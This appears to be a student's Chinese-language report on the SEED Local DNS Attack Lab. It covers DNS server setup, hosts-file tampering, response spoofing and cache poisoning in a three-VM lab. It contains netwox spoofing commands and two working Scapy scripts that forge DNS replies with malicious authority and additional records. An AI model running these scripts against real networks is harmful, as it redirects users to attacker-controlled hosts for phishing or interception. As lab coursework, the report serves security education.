

#<center>Local DNS Attack Lab</center>
<center>2018级信息安全 管箫 18307130012</center>

##Lab Tasks (Part I):<br>Setting Up a Local DNS Server
```
在本次实验中，我们使用三台虚拟机，ip地址分别为：
Attacker: 192.168.61.138
Victim: 192.168.61.139
DNS Server: 192.168.61.140
```

###Task 1: Configure the User Machine
本部分修改Victim设备上的DNS解析设置文件<br>将本地DNS Server修改为指定主机：192.168.61.140

可以观察到dns查询的第一跳变为192.168.140

###Task 2: Set up a Local DNS Server
本部分修改DNS服务器主机上的配置

可以观察到在捕获到的No.3到No.40数据包中，完成了对www.baidu.com的DNS查询。

而触发DNS查询的ping请求只有No.41一次，之后的均使用了DNS Cache。

观察DNS服务器的Cache记录文件，可以看到产生的Cache记录。

###Task 3: Host a Zone in the Local DNS Server
这一部分在DNS服务器上配置www.example.com的记录

观察到主机将来自192.168.61.140的回应当作最终的解析记录
这是因为我们在192.168.61.140主机上刚性配置了该域名的DNS记录的原因。

##Lab Tasks (Part II): Attacks on DNS
###Task 4: Modifying the Host File

可以观察到的配置前，bank32.com解析到谷歌的用户内容网站上

修改后，www.bank32.com解析到了复旦主页的IP地址

###Task 5: Directly Spoofing Response to User
我们知道，当伪造的DNS响应满足以下条件时，就会被主机接受：
>1、The source IP address must match the IP address of the DNS server.
2、The destination IP address must match the IP address of the user’s machine.
3、The source port number (UDP port) must match the port number that the DNS request was sent to (usually port 53).
4、The destination port number must match the port number that the DNS request was sent from.
5、The UDP checksum must be correctly calculated.
6、The transaction ID must match the transaction ID in the DNS request.
7、The domain name in the question section of the reply must match the domain name in the question section of the request.
8、The domain name in the answer section must match the domain name in the question section of the DNS request.
>9、The User’s computer must receive the attacker’s DNS reply before it receives the legitimate DNS response.

为了满足条件1~8，攻击者可以通过嗅探DNS请求包并相应构造响应包的方式来达成目的。
通过在attacker主机上执行以下命令：
```
sudo netwox 105 --hostname www.example.net --hostnameip "1.2.3.4" --authns "ns.example.net" --authnsip "1.2.3.4" --device "ens33" --filter "src host 192.168.61.139"
```
我们成功让Victim主机将www.example.net解析到了1.2.3.4


###Task 6: DNS Cache Poisoning Attack
在这一任务里，我们不是要欺骗Victim的DNS解析，而是通过在本地DNS服务器中写入特定的记录来欺骗Victim主机的域名解析结果。
通过在attacker主机上执行以下命令：
```
sudo netwox 105 --hostname www.example.net --hostnameip "1.2.3.4" --authns "ns.example.net" --authnsip "1.2.3.4" --device "ens33" --filter "src host 192.168.61.140" --ttl 600 --spoofip raw
```
观察WireShark抓包结果

观察dig命令的返回值

观察DNS服务器的Cache内容

我们可以确定，此时本地DNS服务器的Cache已经被毒化。

###Task 7: DNS Cache Poisoning: Targeting the Authority Section
###Task 8: Targeting Another Domain
这两个任务一同完成，我们编写如下代码：
```
from scapy.all import *

def spoof_dns(pkt):
    if DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname:
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        an1 = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    ttl=259200, rdata='202.120.224.81')
        # The Authority Sectio
        ns1 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='attacker32.com')
        ns2 = DNSRR(rrname='google.com', type='NS',
                    ttl=259200, rdata='attacker32.com')
        # The Additional Section
        ar1 = DNSRR(rrname='attacker32.com', type='A',
                    ttl=259200, rdata='202.120.224.81')
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=1,
                  an=an1, ns=ns1/ns2,ar=ar1)
        spoofpkt = ip/udp/dns
        send(spoofpkt, verbose=1)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
并在Victim主机上dig www.example.net，收到了伪造的响应。

可以观察到Task8的任务结果。
我们接下来检查Task7的效果：

可以观察到"123.example.net"在查询时被重定向到了"attacker32.com"

###Task 9: Targeting the Additional Section
我们编写代码：
```
from scapy.all import *
def spoof_dns(pkt):
    if DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname:
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        an1 = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    ttl=259200, rdata='202.120.224.81')
        # The Authority Sectio
        ns1 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='attacker32.com')
        ns2 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='ns.example.net')
        # The Additional Section
        ar1 = DNSRR(rrname='attacker32.com', type='A',
                    ttl=259200, rdata='1.2.3.4')
        ar2 = DNSRR(rrname='ns.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')
        ar3 = DNSRR(rrname='www.facebook.com', type='A',
                    ttl=259200, rdata='3.4.5.6')
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=3,
                  an=an1, ns=ns1/ns2, ar=ar1/ar2/ar3)
        spoofpkt = ip/udp/dns
        send(spoofpkt, verbose=1)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
并且按上述过程进行毒化，我们观察到DNS服务器的Cache中存储了

所有*.example.net情况下的记录。
这是因为DNS服务只信任同域名的DNS服务器提供的权威记录。
